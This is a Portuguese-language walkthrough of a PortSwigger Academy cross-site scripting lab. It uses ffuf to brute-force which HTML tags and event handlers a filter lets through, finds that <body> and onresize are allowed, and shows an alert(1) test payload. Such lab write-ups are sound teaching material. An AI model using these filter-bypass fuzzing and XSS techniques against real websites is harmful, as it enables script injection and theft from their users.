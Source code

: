 Para bypassar essa proteção, podemos fazer um brute force de tags e atributos HTML, até que encontremos uma tag que não seja bloqueada pela aplicação.

O própria **Portswigger** disponibiliza uma lista de tags e atributos HTML que podem ser utilizados para fazer o brute force, que pode ser encontrada [aqui](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

Então iremos salvar a lista de tags em uma *wordlist* e utilizar o `ffuf` para fazer o brute force.

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                       02:20:09
╰──➤ ffuf -w tags.txt -u https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/\?search\=\<FUZZ\>

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://0a62005703fe7516c262dbca0057004b.web-security-academy.net/?search=<FUZZ>
 :: Wordlist         : FUZZ: tags.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

body                    [Status: 200, Size: 3154, Words: 1186, Lines: 66, Duration: 293ms]
:: Progress: [152/152] :: Job [1/1] :: 13 req/sec :: Duration: [0:00:12] :: Errors: 0 ::


```

Com o brute force realizado, podemos ver que a tag `<body>` não está sendo bloqueada pela aplicação, então podemos utilizar essa tag para executar o payload de XSS.

```html
    <body onload="alert(1)">
```

Porém, a aplicação também está bloqueando alguns eventos como por exemplo o `onload`, tornando o script acima inválido. Então iremos utilizar novamente o ffuf para fazer um brute force de eventos.

Utilizando a mesma lista disponibilizada anteriormente pela **Portswigger**, podemos fazer o brute force e encontrar o evento `onresize` que não está sendo bloqueado pela aplicação.
